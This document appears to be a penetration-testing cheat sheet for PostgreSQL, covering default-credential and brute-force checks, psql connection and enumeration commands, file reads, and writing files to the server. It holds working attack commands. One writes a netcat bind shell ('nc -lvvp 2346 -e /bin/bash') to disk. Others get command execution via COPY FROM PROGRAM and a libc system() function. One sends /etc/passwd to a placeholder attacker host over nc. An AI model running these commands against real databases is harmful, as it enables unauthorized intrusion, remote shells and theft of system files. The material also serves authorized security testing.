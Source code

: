 # PosgreSQL Enumeration

## Checks

-   Try default credentials "postgres:postgres"
-   Brute force credentials
-   Check database content for passwords
-   Check version for exploits
-   If you get connected try to get code execution
	-   Writing a file to the filesystem (SSH key, PHP malicious code, etc...)
	-   Try to execute the commands detailed below

## Important link :
- https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/PostgreSQL%20Injection.md
- https://book.hacktricks.xyz/pentesting/pentesting-postgresql

## Connection
```bash
psql -U <myuser> # Open psql console with user
psql -h <host< -U <username> -d <database> # Remote connection
psql -h <host> -p <port> -U <username> -W <password> <database> # Remote connection

# Example
psql -U postgres -h 192.168.148.47  -p 5437
```

## Basic Enumeration
- More commands can be found inside the link above
```sql
# List databases
\list 
# use the database
\c <database> 
# List tables
\d
# Get users roles
\du+ 
```


## Filesystem operations
#### Read filesystem
```sql
# List the content of a directory
select pg_ls_dir('./');
# Read the content of a file
select pg_read_file('PG_VERSION', 0, 200);
```

#### Write to filesystem
```sql
CREATE TABLE pentestlab (t TEXT);
INSERT INTO pentestlab(t) VALUES('nc -lvvp 2346 -e /bin/bash');
SELECT * FROM pentestlab;
COPY pentestlab(t) TO '/tmp/pentestlab';
```


## Command execution
#### First way
```sql
DROP TABLE IF EXISTS cmd_exec;          -- [Optional] Drop the table you want to use if it already exists
CREATE TABLE cmd_exec(cmd_output text); -- Create the table you want to hold the command output
COPY cmd_exec FROM PROGRAM 'id';        -- Run the system command via the COPY FROM PROGRAM function
SELECT * FROM cmd_exec;                 -- [Optional] View the results
DROP TABLE IF EXISTS cmd_exec;          -- [Optional] Remove the table
```

#### Second way
```sql
CREATE OR REPLACE FUNCTION system(cstring) RETURNS int AS '/lib/x86_64-linux-gnu/libc.so.6', 'system' LANGUAGE 'c' STRICT;
SELECT system('cat /etc/passwd | nc <attacker IP> <attacker port>');
```